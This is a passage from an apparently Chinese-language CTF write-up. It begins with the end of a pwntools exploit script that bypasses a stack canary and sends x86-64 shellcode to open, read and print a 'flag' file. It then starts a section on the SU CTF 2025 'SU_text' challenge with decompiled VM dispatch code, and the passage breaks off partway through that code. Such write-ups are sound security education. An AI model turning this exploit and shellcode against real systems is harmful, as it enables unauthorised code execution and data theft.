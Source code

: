 ```py
success("target: "+hex(target))

add_files(6,["/bin/sh\n"]*6,payload) # 应该可以绕过 canary
p.recvuntil("Good opportunity\n")
# rsi rdi 都是 tar rdx 是目标栈地址，rax 是0
shellcode1 = '''
xor rdi,rdi
xchg rsi,rdx
add rsi, 0xc
syscall
'''

shellcode2 = '''
    xor     rax, rax
    push    rax
    mov     rbx, 0x67616c66
    push    rbx
    mov     rdi, rsp
    xor     rsi, rsi
    mov     rax, 2
    syscall


    mov     rdi, rax
    mov     rsi, rsp
    mov     rdx, 0x30
    xor     rax, rax
    syscall
                       


    mov     rdi, 1          
    mov     rsi, rsp      
    mov     rdx, rax
    mov     rax, 1
    syscall
'''
p.send(asm(shellcode1))
p.recvuntil("What do you want to do?\n")
p.send(p64(target))
sleep(1)
p.send(asm(shellcode2))
p.interactive()

```

## SU_text - SU CTF 2025
逆向逆错了，导致半天没想到怎么做，唉， sad     
### 漏洞
除了正常的 create 和 delete 函数外实现了一个虚拟机，其派发函数如下   
```c
char *__fastcall do_ops(char *a1)
{
  int v1; // eax
  char *v3; // [rsp+8h] [rbp-28h]
  unsigned int v4; // [rsp+1Ch] [rbp-14h]
  _DWORD *chunk[2]; // [rsp+20h] [rbp-10h] BYREF

  chunk[1] = (_DWORD *)__readfsqword(0x28u);
  v4 = *a1;
  if ( v4 > 0xF || !heap_ptr[2 * v4] )
    _exit(1);
```